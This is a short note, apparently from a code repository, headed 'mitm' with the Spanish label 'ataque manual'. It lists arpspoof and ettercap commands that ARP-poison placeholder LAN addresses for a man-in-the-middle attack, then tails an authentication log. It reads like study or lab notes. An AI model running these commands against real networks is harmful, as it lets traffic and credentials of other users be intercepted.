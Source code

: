 # mitm

ataque manual:

arpspoof -r -t 192.168.x.1 192.168.x.5

o

ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

sudo tail -f /var/log/auth.log

